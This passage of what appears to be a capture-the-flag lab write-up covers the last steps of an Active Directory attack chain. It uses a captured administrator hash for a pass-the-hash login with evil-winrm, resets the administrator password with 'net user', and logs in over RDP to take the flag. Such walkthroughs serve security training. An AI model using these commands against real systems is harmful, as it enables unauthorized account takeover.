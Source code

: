 Having the administrator’s hash from trusted.vl, we can login through WinRM and complete this AD chain.

```bash
evil-winrm  -i 10.10.178.53 -u 'administrator' -H'15db914be1e6a896e7692f608a9d72ef'
```
## OUTPUT
```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.
At line:1 char:1

```

we change the password of administrator

```bash
 net user administrator "password123!"
```

Having the administrator’s password from trusted.vl, we can login through RDP and  get the flag

```bash
xfreerdp /v:10.10.178.54 /u:administrator /p:'password123!'   

```

we get the root shell



![[Pasted image 20250929080508.png]]






